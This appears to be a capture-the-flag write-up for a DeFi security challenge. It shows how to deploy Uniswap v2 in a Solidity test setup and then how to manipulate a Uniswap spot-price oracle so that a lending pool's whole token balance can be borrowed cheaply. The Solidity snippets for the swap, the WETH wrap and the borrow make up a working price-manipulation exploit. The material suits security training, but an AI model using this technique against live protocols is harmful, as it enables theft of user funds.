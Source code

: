 * The root cause is likely that solidity adds a hash of the filepath add the end of the bytecode when compiling.

#### Avoiding solidity version errors

The folowing code allows for the compilation and deploying of uniswap v2 code avoiding version conflicts

```solidity
// Deploy Uniswap Factory and Router
// why with deployCode() you ask?
// To avoid problems with the version police!
uniswapFactory = IUniswapV2Factory(
  deployCode(
    "out/UniswapV2Factory.sol:UniswapV2Factory",
    abi.encode(0x0000000000000000000000000000000000000000)));
uniswapRouter = IUniswapV2Router01(
  deployCode(
    "out/UniswapV2Router02.sol:UniswapV2Router02",
    abi.encode(
      address(uniswapFactory),
      address(weth)
    )));
```

### Solution

We need to lower the cost of the token, then use our ETH to borrow the whole pool.

Let's send all of the token we have been assigned at the challenge to the uniswap exchange

```solidity
token.approve(address(uniswapRouter), PLAYER_INITIAL_TOKEN_BALANCE);
address[] memory path = new address[](2);
path[0] = address(token);
path[1] = address(weth);
uniswapRouter.swapExactTokensForETH(PLAYER_INITIAL_TOKEN_BALANCE, 0, path, address(this), block.timestamp + 1);
```

We will receive ETH, so let's implement `receive()` at our attacking smart contract.

Next, just borrow using your initial amount plus the ETH you received. Notice that it is required to wrap the ETH and make it available for transfer.

```solidity
uint256 weth_required = lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE);
weth.deposit{value: weth_required}();
weth.approve(address(lendingPool), weth_required);
```

### References

* https://docs.uniswap.org/contracts/v2/reference/smart-contracts/router-02#swapexacttokensforeth
* https://github.com/transmissions11/solmate/blob/main/src/tokens/WETH.sol
